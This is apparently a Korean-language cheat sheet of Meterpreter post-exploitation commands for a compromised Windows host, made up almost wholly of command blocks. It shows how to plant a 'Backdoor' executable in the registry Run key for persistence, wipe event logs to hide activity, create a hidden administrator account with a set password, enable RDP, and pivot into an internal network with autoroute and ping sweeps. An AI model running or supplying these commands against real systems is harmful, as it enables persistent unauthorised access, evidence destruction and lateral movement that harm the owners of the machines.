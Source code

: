 ### 기본 레지스트리 작업

```bash
# 레지스트리 키 열기
meterpreter > reg enumkey -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

# 레지스트리 값 읽기
meterpreter > reg queryval -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v "Windows Defender"

# 레지스트리 값 설정
meterpreter > reg setval -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v "Backdoor" -t REG_SZ -d "C:\\temp\\backdoor.exe"

# 레지스트리 키 삭제
meterpreter > reg deleteval -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v "Backdoor"
```

## 이벤트 로그 조작

### 로그 지우기

```bash
# 시스템 이벤트 로그 지우기
meterpreter > clearev

# 특정 로그 지우기
meterpreter > run post/windows/manage/delete_logs
```

## 사용자 계정 관리

### 계정 생성 및 관리

```bash
# 새 사용자 생성
meterpreter > run post/windows/manage/add_user USERNAME=backdoor PASSWORD=P@ssw0rd

# 관리자 그룹 추가
meterpreter > run post/windows/manage/add_user_to_local_admin_group USERNAME=backdoor

# RDP 활성화
meterpreter > run post/windows/manage/enable_rdp
```

## 네트워크 정찰

### 내부 네트워크 스캔

```bash
# 라우트 추가 (피벗팅)
meterpreter > run autoroute -s 192.168.100.0/24

# 라우트 확인
meterpreter > run autoroute -p

# 내부 네트워크 포트 스캔
meterpreter > run post/multi/gather/ping_sweep RHOSTS=192.168.100.0/24
```
